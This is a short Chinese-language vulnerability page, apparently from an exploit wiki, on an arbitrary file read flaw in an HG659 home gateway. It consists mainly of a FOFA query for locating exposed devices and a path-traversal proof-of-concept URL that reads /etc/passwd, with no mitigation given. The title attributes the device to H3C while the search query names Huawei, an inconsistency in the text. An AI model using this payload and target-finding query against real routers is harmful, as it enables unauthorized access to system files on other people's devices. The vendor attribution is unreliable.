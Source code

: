 # H3C HG659 lib 任意文件读取漏洞

## 漏洞描述

H3C HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> H3C HG659 

## FOFA

> [!NOTE]
>
> app="HUAWEI-Home-Gateway-HG659"

## 漏洞复现

登录页面如下

![image-20210615141459903](http://wikioss.peiqi.tech/vuln/image-20210615141459903.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

POC如下

```
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![image-20210615141751249](http://wikioss.peiqi.tech/vuln/image-20210615141751249.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)